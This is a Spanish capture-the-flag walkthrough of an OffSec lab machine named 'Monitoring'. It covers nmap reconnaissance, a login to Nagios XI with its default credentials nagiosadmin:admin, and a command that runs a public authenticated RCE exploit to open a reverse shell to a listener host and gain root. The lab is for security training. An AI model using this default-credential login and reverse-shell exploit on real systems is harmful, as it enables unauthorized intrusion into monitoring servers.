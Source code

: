 ```yaml
---
description: '✍️ Autor: OffSec 🔍 Dificultad: Fácil'
---
```


# Monitoring

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.197.136
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 192.168.197.136
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como se puede observar durante el escaneo, los siguientes puertos se encuentran abiertos:

* **Puerto 22**, correspondiente al servicio **SSH**.
* **Puerto 25**, correspondiente al servicio **SMTP**.
* **Puerto 80**, correspondiente al servicio **HTTP**.
* **Puerto 389**, correspondiente al servicio **LDAP**.
* **Puerto 443**, correspondiente al servicio **HTTPS**.

Dado que estos servicios están accesibles, se procederá a realizar un análisis más detallado sobre cada uno de ellos con el fin de identificar posibles vectores de ataque o configuraciones incorrectas.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,389,443 -v 192.168.197.136
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es una página de Nagios XI y al dar a acceder se nos muestra el panel de Login. Tras buscar las contraseñas por defecto nos logueamos (nagiosadmin:admin).

{% embed url="https://bobcares.com/blog/nagios-reset-password-for-nagiosadmin/" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos una versión por lo que miramos a ver si tiene un exploit.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Sí tiene exploit por lo que lo ejecutamos y así conseguimos una ejecución remota de código.

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/nagios_xi_mibs_authenticated_rce/" %}

{% @github-files/github-code-block url="https://github.com/hadrian3689/nagiosxi_5.6.6/blob/main/exploit.py" %}

Nos descargamos el exploit y lo ejecutamos.

```bash
python3 exploit.py -t http://192.168.197.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.157-lp 4444
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mientras nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

y sí somos **root**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
